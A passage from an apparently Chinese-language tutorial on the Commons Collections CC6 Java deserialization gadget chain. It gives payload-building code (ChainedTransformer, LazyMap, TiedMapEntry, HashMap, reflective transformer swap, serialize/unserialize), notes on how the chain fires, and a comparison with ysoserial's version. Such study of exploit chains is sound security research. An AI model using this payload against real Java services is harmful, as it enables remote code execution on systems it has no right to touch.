 ```Java
        };

        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry entry = new TiedMapEntry(outerMap, "oo");

        HashMap expMap = new HashMap();  
        expMap.put(entry, "uu");   
        outerMap.remove("oo"); // ①
      
        f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);  // ②
        
        byte[] serializeData=serialize(expMap);
        unserialize(serializeData);
```

①  因为lazymap#get 需要一个不存在的key才会执行factory.transform，所以最后将lazymap中的key使用remove移除掉，否则会影响到payload的生成导致链的利用失败。

② 在调用到HashMap#put方法时就会触发到hash方法而导致链被调用，所以和CC1一样：为了避免还没反序列化本地就执行命令，也是需先传一个fakeTransformers，后边在要进入序列化通过反射，传入真正的transformers。

#### yso版

```
ObjectInputStream.readObject()
           HashSet.readObject()
                HashMap.put()
                  HashMap.hash()
                    TiedMapEntry.hashCode()
                        ...
```

yso的CC6用的是HashMap#hash()调用了hashCode()

```java
    final int hash(Object k) {
        int h = hashSeed;
        if (0 != h && k instanceof String) {
            return sun.misc.Hashing.stringHash32((String) k);
        }

        h ^= k.hashCode();   // here
        ...}
```

HashMap#put 调用 HashMap#hash

```java
 public V put(K key, V value) {
        if (table == EMPTY_TABLE) {
            inflateTable(threshold);
        }
        if (key == null)
            return putForNullKey(value);
        int hash = hash(key);   // here
        int i = indexFor(hash, table.length);
        for (Entry<K,V> e = table[i]; e != null; e = e.next) {
            Object k;
            if (e.hash == hash && ((k = e.key) == key || key.equals(k))) {
                V oldValue = e.value;
                e.value = value;
```